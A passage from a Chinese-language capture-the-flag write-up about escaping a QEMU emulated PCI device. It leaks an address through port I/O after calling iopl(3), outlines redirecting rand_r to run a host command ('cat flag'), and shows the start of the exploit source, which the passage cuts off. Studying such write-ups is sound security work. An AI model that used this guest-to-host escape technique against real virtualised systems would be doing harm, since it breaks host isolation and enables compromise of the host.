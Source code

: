 ![image-20250512174042840](https://oss.nova.gal/img/image-20250512174042840.png)

因此我们得使用 pmio，因为正如上文分析的，pmio 用的是 `opaque->addr`，而这个东西是我们可以控制的。

![image-20250512174211402](https://oss.nova.gal/img/image-20250512174211402.png)

那么就是用 PMIO 来打咯。

:::warning 注意

在运行前，我们需要调用 `iopl(3)` 去允许用户态（即 RING3）访问 io 端口。我们也可以用 `ioperm` 去允许单个端口。

see [ioperm(2) - Linux manual page](https://www.man7.org/linux/man-pages/man2/ioperm.2.html), [iopl(2) - Linux manual page](https://www.man7.org/linux/man-pages/man2/iopl.2.html), [outb(2) - Linux manual page](https://man7.org/linux/man-pages/man2/outb.2.html)

:::

```c
int main()
{
    if(iopl(3)!=0){perror("iopl failed");exit(-1);}

    pmio_write(0, 65 << 2);
    int srand_addr = pmio_read(4);
    printf("srand_addr = %x\n", srand_addr);

    return 0;
}
```

 ```c
 srand_addr = a49c7ba0
 ```

轻松写意了有点，继续把高位泄露，然后传参即可。

有个坑点，它这个环境用 uint64_t 不能搞到 64bit，而是 32bit，不知道为啥，反正最后用了 long long 才行。



但是有个问题，我们知道 rand_r 第一个参数是 `&regs[2]`，也就意味着我们如果写 `/bin/sh` 的话必然会碰到 `regs[3]`，但是在 pmio 中并不能设置 `regs[3]`，它会直接调用 `rand_r`， 因此我们还需要把 mmio 也接上。

> 实际上，我们似乎也可以直接用 `sh`，从而避免这个问题。



由于它是 ssh 的，不太好搞，因此我写成了 `cat flag` 来拿宿主机的 flag



### exp

```c
#include <sys/io.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/types.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
```